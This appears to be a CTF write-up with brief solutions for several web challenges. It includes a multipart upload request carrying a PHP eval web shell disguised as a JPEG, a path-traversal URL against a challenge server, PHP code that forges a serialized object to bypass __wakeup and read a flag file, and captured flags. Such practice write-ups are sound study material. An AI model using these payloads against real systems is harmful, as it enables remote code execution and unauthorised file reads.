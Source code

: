 flag: `ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}`

### upload1

```http
------WebKitFormBoundaryYBxVsEzIO8C3R6nQ
Content-Disposition: form-data; name="upfile"; filename="x.php"
Content-Type: image/jpeg

<?php eval($_GET['x']) ?>
------WebKitFormBoundaryYBxVsEzIO8C3R6nQ--
```

flag: `cyberpeace{37168f805d005841bc25086834371862}`

### warmup

我只能说 wtf

```
http://61.147.171.105:57169/?file=source.php?../../../../../ffffllllaaaagggg
```

flag: `flag{25e7bce6005c4e0c983fb97297ac6e5a}`

### NewsCenter

题坏了

### Web_php_unserialize

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}

$d = new Demo('fl4g.php');
$s = serialize($d);
$s = str_replace('O:4:"Demo"', 'O:+4:"Demo"', $s);
$s = str_replace('"Demo":1:', '"Demo":2:', $s);
echo $s . "\n";
echo base64_encode($s) . "\n";

?>
```
